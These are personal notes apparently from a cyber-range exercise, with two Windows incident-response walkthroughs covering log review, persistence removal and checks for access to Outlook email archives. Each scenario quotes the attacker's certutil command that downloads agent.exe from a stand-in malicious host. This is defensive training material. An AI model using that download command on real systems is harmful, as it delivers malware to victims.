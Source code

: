 <!--
Title: ASD Live Fire Exchange Programme (GitHub Markdown Version)
Author: Simon .I
Version: 2025.03.30
Description: GitHub-compatible Markdown (GHM) version using supported HTML like <details> and <table>.
-->

<!-- ASD Programme Title -->
<h1 align="center"><strong style="font-size: 4.5rem; letter-spacing: 4px; color: navy;">Australian Signals Directorate - Live Fire Exchange Program</strong></h1>

<p><strong>These are my personal notes from the <em>ASD Live Fire Cyberbitrange</em> event. This document is not provided by or affiliated with the <em>Australian Signals Directorate (ASD)</em> or <em>CyberbitRange</em>.</strong></p>

---

<details>

<summary><strong>🌐 LFE 1 Bangalore – Email Dumper</strong></summary>

### 🔎 Scenario: Email Dumper

A security alert from the EDR system has flagged unusual command-line activity on a Windows host belonging to a university staff member. Early indications show the use of native Windows tools to download and run an unknown payload. Your task is to investigate the host, confirm if email data was targeted, and fully remediate the system.

---

### 📊 Key Event IDs

| Event Source | ID   | Description              |
|--------------|------|--------------------------|
| Sysmon       | 1    | Process Creation         |
| Sysmon       | 3    | Network Connection       |
| Sysmon       | 11   | File Created             |
| Security Log | 4688 | Windows Process Creation |

---

### 🧱 Step 1: Initial Process Review

Use Task Manager or PowerShell to check for suspicious processes:

```powershell
taskmgr
tasklist | findstr /i "powershell certutil agent cmd"
```

Terminate suspicious entries:

```powershell
taskkill /F /PID <PID>
```

Use Process Hacker (or similar tool) to verify parent-child chain:

> Look for:
> ```
> winword.exe → powershell.exe → certutil.exe → agent.exe
> ```

---

### 📜 Step 2: Log Review (Event Viewer or Sysmon)

Open Event Viewer:

```powershell
eventvwr
```

Check:

- **Windows Logs > Security > Event ID 4688**
- **Applications and Services Logs > Microsoft > Windows > Sysmon**

Look for:

- `powershell.exe -enc`
- `certutil.exe` with full URL
- file creation of `agent.exe`
- network connections from the agent process

> Bonus: View command line arguments and parent process IDs in event details.

---

### 🧪 Step 3: Certutil Abuse

The attacker used `certutil` to download a payload directly from the command line:

```powershell
certutil -urlcache -split -f http://malicious.site/agent.exe agent.exe
```

Search for the dropped payload:

```powershell
Get-ChildItem -Path "C:\Users\<user>\AppData\Roaming" -Include agent.exe -Recurse
Get-ChildItem -Path "C:\Users\<user>\AppData\Local\Temp" -Include agent.exe -Recurse
Get-ChildItem -Path "C:\Users\<user>\Desktop","Downloads" -Include agent.exe -Recurse
```

Check file metadata and creation time:

```powershell
Get-Item "C:\Users\<user>\AppData\Roaming\agent.exe" | Select-Object Name, CreationTime, LastAccessTime
Get-AuthenticodeSignature "C:\Users\<user>\AppData\Roaming\agent.exe"
```

---

### 🧬 Step 4: Obfuscated PowerShell Decoding

The attacker used a base64-encoded payload:

```powershell
powershell.exe -enc <Base64>
```

Decode and inspect:

```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<Base64String>"))
```

Look for embedded downloaders or payload launchers (e.g., `iex`, `Start-Process`).

---

### 🗓 Step 5: Check Scheduled Tasks for Persistence

List all scheduled tasks:

```powershell
schtasks /query /fo LIST /v
```

Look for tasks that point to suspicious `.exe`, `.bat`, or PowerShell commands.

Remove confirmed malicious tasks:

```powershell
Unregister-ScheduledTask -TaskName "<SuspiciousTaskName>" -Confirm:$false
```

---

### 🧼 Step 6: Check Registry Autoruns

Review autorun keys:

```powershell
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

Remove entries pointing to `agent.exe`:

```powershell
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "<BadEntry>" /f
```

---

### 🌐 Step 7: Network Connections

Check for active or historical network sessions:

```powershell
netstat -bano
```

Correlate PID to process:

```powershell
tasklist | findstr <PID>
```

---

### 📂 Step 8: Investigate Email Data Access

The agent is designed to steal Outlook email archives.

Search for `.pst` and `.ost` files:

```powershell
Get-ChildItem -Path "C:\Users" -Include *.pst,*.ost -File -Recurse -ErrorAction SilentlyContinue
```

Check last access time:

```powershell
Get-Item "C:\Users\<user>\AppData\Local\Microsoft\Outlook\*.ost" | Select-Object Name, LastAccessTime
```

---

### ✅ Step 9: Remediation

Terminate running payload:

```powershell
taskkill /F /PID <PID>
```

Delete the malicious executable:

```powershell
Remove-Item -Path "C:\Users\<user>\AppData\Roaming\agent.exe" -Force
```

Remove registry and task persistence:

```powershell
Unregister-ScheduledTask -TaskName "<Name>" -Confirm:$false
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "<BadEntry>" /f
```

---

### 🧾 Analyst Notes

- Isolate the host from the network to prevent C2 callbacks
- Submit `agent.exe` to a sandbox or malware analysis platform
- Check other endpoints for indicators (e.g., certutil usage or registry persistence)

---

### 🧠 Key Takeaways

- LOLBAS abuse (`certutil`, `powershell -enc`) remains a common tactic for initial payload delivery
- Obfuscated PowerShell is frequently used to evade detection and download malware
- Email data (`.pst`/`.ost`) is highly targeted and should be monitored for access
- Registry and scheduled tasks remain common persistence techniques
- Combining Sysmon and Event Viewer logs paints a full picture of the infection timeline

</details>

---

<details>

<summary><strong>🌋 LFE 2 Jakarta – Killer Trojan</strong></summary>

### 🔎 Scenario: Killer Trojan

An EDR alert has flagged suspicious behaviour on a user workstation. Analysis indicates a Trojan was downloaded and executed using built-in Windows utilities, with attempts to establish persistence and possibly access email data. Your goal is to investigate the host, confirm the infection method, locate the payload, and eradicate all signs of compromise.

---

### 📊 Key Event IDs

| Event Source | ID   | Description              |
|--------------|------|--------------------------|
| Sysmon       | 1    | Process Creation         |
| Sysmon       | 3    | Network Connection       |
| Sysmon       | 11   | File Created             |
| Security Log | 4688 | Windows Process Creation |

---

### 🧱 Step 1: Initial Process Investigation

List active processes using Task Manager or terminal:

```powershell
taskmgr
tasklist | findstr /i "powershell certutil cmd agent rundll32 regsvr32"
```

Terminate suspicious binaries:

```powershell
taskkill /F /PID <PID>
```

Check parent-child process lineage:

> Example chain:
> ```
> explorer.exe → powershell.exe → certutil.exe → agent.exe
> ```

Tools like **Process Hacker** or **Sysmon event ID 1** can help confirm this chain.

---

### 📜 Step 2: Log Review

Open Event Viewer:

```powershell
eventvwr
```

Check the following:

- **Security > Event ID 4688**: Process Creation
- **Sysmon > Event ID 1**: Process Creation  
- **Sysmon > Event ID 11**: File Creation  
- **Sysmon > Event ID 3**: Network Connection

Look for:

- `certutil.exe` downloads
- agent.exe execution
- any outbound connection attempts

---

### 🧪 Step 3: Certutil Payload Download

The attacker downloaded a payload using:

```powershell
certutil -urlcache -split -f http://malicious.site/agent.exe agent.exe
```

Check for known drop paths:

```powershell
Get-ChildItem -Path "C:\Users\<user>\AppData\Roaming" -Include agent.exe -Recurse
Get-ChildItem -Path "C:\Users\<user>\AppData\Local\Temp" -Include agent.exe -Recurse
```

Optional Defender scan:

```powershell
Start-MpScan -ScanType CustomScan -ScanPath "C:\Users\<user>\AppData\Roaming\agent.exe"
```

Inspect file metadata:

```powershell
Get-Item "C:\Users\<user>\AppData\Roaming\agent.exe" | Select-Object Name, CreationTime, LastAccessTime
Get-AuthenticodeSignature "C:\Users\<user>\AppData\Roaming\agent.exe"
```

---

### 🧬 Step 4: Obfuscated PowerShell Execution (if used)

Check for base64-encoded PowerShell commands in logs:

```powershell
powershell.exe -enc <Base64>
```

Decode with:

```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("<Base64String>"))
```

Look for:
- `Start-Process`, `Invoke-WebRequest`
- Calls to run `agent.exe` or add registry tasks

---

### 🗓 Step 5: Scheduled Task Persistence

List scheduled tasks and review commands:

```powershell
schtasks /query /fo LIST /v
```

Look for:
- Custom task names
- Execution of `agent.exe`, `.bat` scripts, or PowerShell

Delete malicious tasks:

```powershell
Unregister-ScheduledTask -TaskName "<SuspiciousTaskName>" -Confirm:$false
```

---

### 🧼 Step 6: Registry Autorun Persistence

Query common persistence keys:

```powershell
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

Remove malicious entries:

```powershell
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "<BadEntry>" /f
```

---

### 🌐 Step 7: Network Connection Check

List outbound connections:

```powershell
netstat -bano
```

Correlate PIDs to process names:

```powershell
tasklist | findstr <PID>
```

> Note any strange external IPs or repeated attempts to connect to the same destination.

---

### 📁 Step 8: Search for Email Artefacts or Exfil

While no confirmed exfiltration occurred, the Trojan may target email data.

```powershell
Get-ChildItem -Path "C:\Users" -Include *.pst,*.ost -File -Recurse -ErrorAction SilentlyContinue
```

Check access timestamps:

```powershell
Get-Item "C:\Users\<user>\AppData\Local\Microsoft\Outlook\*.ost" | Select-Object Name, LastAccessTime
```

---

### ✅ Step 9: Remediation

Terminate process:

```powershell
taskkill /F /PID <PID>
```

Remove agent binary:

```powershell
Remove-Item -Path "C:\Users\<user>\AppData\Roaming\agent.exe" -Force
```

Clean up persistence:

```powershell
Unregister-ScheduledTask -TaskName "<Name>" -Confirm:$false
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "<BadEntry>" /f
```

---

### 🧾 Analyst Notes

- Isolate the machine from the network
- Submit `agent.exe` to an analysis platform
- Review other hosts for indicators: certutil use, autorun registry entries, matching hashes
- Consider implementing command-line logging or AppLocker

---

### 🧠 Key Takeaways

- LOLBAS techniques like `certutil` are frequently used to bypass security software
- Roaming and Temp folders are often used for staging malware
- Registry Run keys and Scheduled Tasks are standard persistence methods
- Email data remains a high-value target — access logs matter
- Event logs and process lineage tracking (via Sysmon) are critical for full investigation

</details>

---
